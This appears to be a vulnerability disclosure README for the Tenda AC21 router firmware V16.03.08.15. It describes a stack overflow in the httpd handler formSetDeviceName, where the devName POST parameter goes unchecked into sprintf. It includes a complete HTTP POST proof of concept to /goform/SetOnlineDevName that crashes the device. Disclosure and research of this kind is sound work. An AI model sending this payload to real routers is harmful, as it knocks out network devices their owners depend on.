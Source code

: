 # Tenda AC21(V16.03.08.15) contains Stack Buffer Overflow Vulnerability

## overview

- Manufacturer's website information：https://www.tenda.com.cn/
- Firmware download address: https://www.tenda.com.cn/download/detail-3419.html

## product information

Tenda A21(V16.03.08.15), latest version of simulation overview：

![image-20220902192028747](readme.assets/image-20220902192028747.png)

## description

### 1. Vulnerability Details

Tenda AC21(V16.03.08.15) contains a stack overflow vulnerability in file `/bin/httpd`, function`formSetDeviceName`

In function `formSetDeviceName`, it calls `set_device_name` and pass `v3, v4` to it. 

![image-20220902193318763](readme.assets/image-20220902193318763.png)\

In `set_device_name`, it calls `sprintf(v4, "%s;1", a1)`   and `a1` is the POST parameter `devName` , `v4` is on the stack, so there is a stack overflow. 

![image-20220902193419676](readme.assets/image-20220902193419676.png)

### 2. Recurring loopholes and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /goform/SetOnlineDevName HTTP/1.1
Host: 192.168.0.1
Content-Length: 264
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/system_time.html?random=0.9865714904007963&
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close

mac=9c:fc:e8:da:9c:5b&devName=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

By sending this poc, we can achieve the effect of a denial-of-service(DOS) attack .

![image-20220902193305350](readme.assets/image-20220902193305350.png)
